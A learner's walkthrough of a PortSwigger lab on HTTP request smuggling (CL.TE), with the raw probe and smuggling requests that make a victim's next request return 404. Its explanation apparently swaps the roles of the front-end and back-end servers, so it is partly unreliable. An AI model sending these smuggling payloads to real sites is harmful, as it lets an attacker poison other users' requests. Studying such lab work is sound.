

# [HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)

> the goal is to make the server response with a `404`

- open the lab in burp browser
- send the `/` request tot eh repeater
- change the request to `HTTP/1.1`
- send it again to check if it is still working
- should return with `200`

## recon

- check with the following request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

- delete the rest of the headers (to make it easy to read)
- every new line is two character `\r\n`
- so the `abc` looks like -> `abc\r\n` -> 5 characters
- the content length for this request is **9** but we set it **6**

```
3\r\n
abc\r\n
X
```

- **3,\r,\n,a,b,c** -> 6 character, it chops of the **x,\r,\n**
- the frontend server checks `Transfer-Encoding: chunked`, and it sees that the content is not correct, instead of the **X** there should be a hexadecimal number, or the chunks should be closed by:

```
0\r\n
\r\n
```

- it waits for the rest, but it not arrives so times out
- this is the `CL.TE` vulnerability
- send the request

## exploit

- send two requests

> first request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 40

0

GET /whatever HTTP/1.1
X-Ignore: X
```

- the `Content-Length` is the actual value, no trick here
- after the `X-Ignore: X` there is NO new line `\r\n`
- the `GET /whatever HTTP/1.1\r\nX-Ignore: X` will be dropped off from the first request what the second request will pick up, and the goal is to append it to the second request

> second request is just the default `/` request

- this should give back the `404` what will solve tha lab

> 
